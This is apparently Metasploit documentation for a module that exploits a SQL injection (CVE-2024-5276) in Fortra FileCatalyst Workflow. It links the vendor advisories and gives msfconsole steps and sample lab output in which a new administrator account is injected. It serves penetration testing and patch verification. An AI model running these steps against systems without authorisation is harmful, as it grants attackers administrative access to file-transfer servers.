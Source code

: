 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Fortra FileCatalyst Workflow <= v5.1.6 Build 135 (CVE-2024-5276), by adding a new
administrative user to the web interface of the application.

The vendor published an advisory [here]
(https://support.fortra.com/filecatalyst/kb-articles/advisory-6-24-2024-filecatalyst-workflow-sql-injection-vulnerability-YmYwYWY4OTYtNTUzMi1lZjExLTg0MGEtNjA0NWJkMDg3MDA0)
and [here](https://www.fortra.com/security/advisories/product-security/fi-2024-008).

The advisory from Tenable is available [here](https://www.tenable.com/security/research/tra-2024-25).

## Testing

The software can be obtained from the [vendor](https://www.goanywhere.com/products/filecatalyst/trial).

Deploy it by following the vendor's [installation guide]
(https://filecatalyst.software/public/filecatalyst/Workflow/5.1.6.139/FileCatalyst_Web_Tomcat_Installation.pdf).

**Successfully tested on**

- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Windows 10 22H2
- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Ubuntu 24.04 LTS

## Verification Steps

1. Deploy Fortra FileCatalyst Workflow <= v5.1.6 Build 135
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `set RPORT <PORT>`
6. `set TARGETURI <URI>`
7. `set NEW_USERNAME <username>`
8. `set NEW_PASSWORD <password>`
9. `run`
10. A new admin user should have been successfully added.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

### NEW_EMAIL
E-mail to be used when creating a new user with admin privileges.

## Scenarios

Running the module against FileCatalyst Workflow v5.1.6 (Build 135) on either Windows 10 22H2 or Ubuntu 24.04 LTS should result in an output
similar to the following:

```
msf6 auxiliary(admin/http/fortra_filecatalyst_workflow_sqli) > run
[*] Running module against 192.168.137.195

[*] Starting SQL injection workflow...
[+] Server reachable.
[*] JSESSIONID value: CBD945F52F91E0F4354296C939BDABDE
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[*] Redirect #1: /workflow/createNewJob.do?.rnd2=3324035&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Redirect #2: /workflow/jsp/chooseOrderForm.jsp?.rnd2=3324040&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Received expected response.
[+] SQL injection successful!
[*] Confirming credentials...
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[+] Login successful!
[+] New admin user was successfully injected:
	elroy:yodTwsPs
[+] Login at: http://192.168.137.195:8080/workflow/jsp/logon.jsp
[*] Auxiliary module execution completed
```
